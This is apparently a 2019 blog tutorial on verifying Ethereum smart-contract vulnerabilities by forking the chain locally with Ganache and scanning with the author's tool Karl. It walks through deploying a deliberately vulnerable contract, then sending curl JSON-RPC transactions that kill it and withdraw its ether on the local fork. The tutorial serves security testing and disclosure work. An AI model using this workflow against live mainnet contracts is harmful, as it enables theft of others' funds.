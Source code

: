 ```yaml
---
title: How to Exploit Ethereum in a Virtual Environment
summary: This is going to be a series about some of the techniques I implemented when designing Karl, a free tool that finds exploitable code in live smart contracts. When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain. Virtual environment A blockchain
authors:
  - Daniel Luca (@cleanunicorn)
date: 2019-02-01
some_url: 
---
```


# How to Exploit Ethereum in a Virtual Environment


> This is going to be a series about some of the techniques I implemented when designing Karl, a free tool that finds exploitable code in live smart contracts.

When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain.

![](https://api.beta.kauri.io:443/ipfs/QmWabvaWJfFg893rYCF1UDSkfFA5Ua8gbZK2E6CU88HJwd)


#### Virtual environment
A blockchain clone is useful because we could break the contract arbitrarily sending transactions to it. Remember 
[“I accidentally killed it”](https://github.com/paritytech/parity-ethereum/issues/6995)
 ?
Another great reason to use a virtual environment is that once you send transactions to the blockchain, any other person watching it will know how to exploit it, and they may not be as diligent as you about 
[responsibly disclosing the vulnerability](https://en.wikipedia.org/wiki/Responsible_disclosure)
 to the creators of the application.
Even if you wanted to exploit the contract, you would still need to make sure the exploit works by testing it before carrying out the attack.

#### How to setup the virtual environment
You may know about ganache, the whipped filling of chocolate and cream, used in desserts such as cakes and truffles. Mmmmhhm yeah! But there’s another ganache that works really well with truffles.
Being part of the 
[Truffle Framework](https://truffleframework.com/)
 , a smart contract development environment, 
[Ganache](https://truffleframework.com/ganache)
 is your on-demand personal Ethereum blockchain, perfect for local development… and hacking!
Compared to 
[Geth](https://github.com/ethereum/go-ethereum)
 or 
[Parity](https://github.com/paritytech/parity-ethereum)
 , Ganache is easier to setup and it’s not as resource intensive.
You can install and run Ganache in just 2 commands (if you have 
[Node.js](https://nodejs.org/)
 installed)

```
$ npm install -g ganache-cli
$ ganache-cli
```


And you have your own personal blockchain.

#### Forking the mainnnet
A little-known feature of Ganache is 
**forking**
 another blockchain. You can think about this as 
**cloning**
  
**an existing blockchain**
 , but don’t worry, you won’t need to download the entire blockchain! Ganache will start instantly and will only query the real blockchain when it needs to, for example to read the contract’s code and state.

```
$ ganache-cli -f https://mainnet.infura.io
```


And you can fork the chain at a specific block if that’s what you need, for example forking at block 100.

```
$ ganache-cli -f https://mainnet.infura.io@100
```


This will provide a 
**blockchain clone**
 that is safe to play with. It will create a local instance and you can send transactions and deploy new contracts, run your exploit and check its validity. All of this without touching the 
_real blockchain_
 , without anyone else knowing what you’re doing and without self-destructing libraries by mistake.

### Exploiting in a virtual environment walk-through
> This is where we start to go into details. You need a few things installed.

In the following example you will:



 * Run Karl and monitor for vulnerable contracts

 * Fork the chain after we find a vulnerable contract

 * Test the exploit and see if we stole some ether

#### Karl
If you don’t know about Karl, go to the GitHub page and star the project. It helps you find vulnerable contracts on Ethereum.
 
[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
 
> If you find any bugs or have any problems running Karl, please report an issue.

Karl is available as a 
[PyPI package](https://pypi.org/project/karl/)
 , so you can just install it by running:

```
$ pip install --user karl
```


Typically you would point Karl at the main Ethereum network and monitor the contracts that get deployed there. For demonstration purposes, we’re going to monitor a local test chain instead. We’ll use Ganache for this test chain too.
We start a private Ganache instance.

```
$ ganache-cli -d
```


Start Karl and monitor for new contracts.

```
$ karl --rpc localhost:8545
```


In the Ganache console you will see Karl polling for new blocks, waiting for a new contract to be deployed.

```
Listening on 127.0.0.1:8545
eth_blockNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
...
```


We’re going to deploy a vulnerable contract ourselves.
This curl request deploys a vulnerable contract along with 1 ether.

```
curl -X POST -d '{"id": 1, "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": "0xaca94ef8bd5ffee41947b4585a84bda5a3d3da6e", "gas": "300000", "value": "0xde0b6b3a7640000",  "data": "0x608060405260c0806100126000396000f3fe6080604052348015600f57600080fd5b50600436106044577c01000000000000000000000000000000000000000000000000000000006000350463cbf0b0c081146049575b600080fd5b607960048036036020811015605d57600080fd5b503573ffffffffffffffffffffffffffffffffffffffff16607b565b005b8073ffffffffffffffffffffffffffffffffffffffff16fffea165627a7a72305820ddb174c0ae06fce4c792c57814a3c70d932e0ae31a6a3560c4ca0bb7be11bc370029"}]}' localhost:8545
```


Karl should find a vulnerability right away.

```
POSSIBLE VULNERABILITY!
Initial balance = 100000000000000000000, final balance = 101999999999999985722
```



```
Type = VulnerabilityType.KILL_AND_WITHDRAW
Description = Looks line anyone can kill this contract and steal its balance.
Transactions = [{'from': '0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'to': '0x07a457d878BF363E0Bb5aa0B096092f941e19962', 'data': '0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'value': 0}]
```


Now we can fork the chain and check the vulnerability ourselves.

#### Forking the chain
The original chain is located at 
`http://localhost:8545`
 , because we're running this on the same machine we can start Ganache with fork functionality and start it on a different port.

```
$ ganache-cli -f http://localhost:8545 -d -p 9545
```


Each flag explained:



 *  `-f http://localhost:8545` tells Ganache what chain to fork

 *  `-d` runs Ganache in deterministic mode, the same wallets are generated every time; this is important because you can copy paste the curl commands and you don’t need to update the address that deploys the contract

 *  `-p 9545` sets a different port to run on (the default 8545 is already used by our test chain)
Once the fork is up and running, we can send the transaction that Karl reported and see if we successfully stole the contract’s ether.
First check the initial balance of the address that will exploit the vulnerable contract 
`0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e`
 .

```
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545
```



```
{"id":1,"result":"0x56bc75e2d63100000"}
```


Our current balance is 
`0x56bc75e2d63100000`
 which is exactly 100 ether in hex format.

#### Exploiting the contract
We send the transaction Karl reported

```
$ curl -X POST -d '{"id": 1, "method": "eth_sendTransaction", "params":[{"from": "0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "to": "0x07a457d878BF363E0Bb5aa0B096092f941e19962", "data": "0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "value": 0}]}' localhost:9545
```



```
{"id":1,"result":"0xbac0d287bcc30e262e90161ab01a6d5b978ef981a103414125d3a4877b8e55e1"}
```


We see a successful response with the transaction hash in the result.

#### Checking the final balance
The last thing to do is get the final balance of the account.

```
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545
```



```
{"id":1,"result":"0x579a71129ec175000"}
```





 *  `0x56bc75e2d63100000` initial balance

 *  `0x579a71129ec175000` final balance
Doing the math we see that the difference is almost 1 ether, the initial ether we sent in the contract when we deployed it, minus the transaction fee when exploiting it.

![](https://api.beta.kauri.io:443/ipfs/QmanyTPWGb3izbf1PfhkauC3XadshJU61dQABQ4Zm9psF5)

The cool thing is that Karl does this automatically for you. It creates the local fork, tries the exploit and outputs an alert when there is an exploitable vulnerability.

![](https://api.beta.kauri.io:443/ipfs/QmYg2wkj98MEp5UzTB6W51D9881TL4v5gwLTeBSrpc6hs4)

All this goodness is already implemented and packaged for you.
 
[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
 
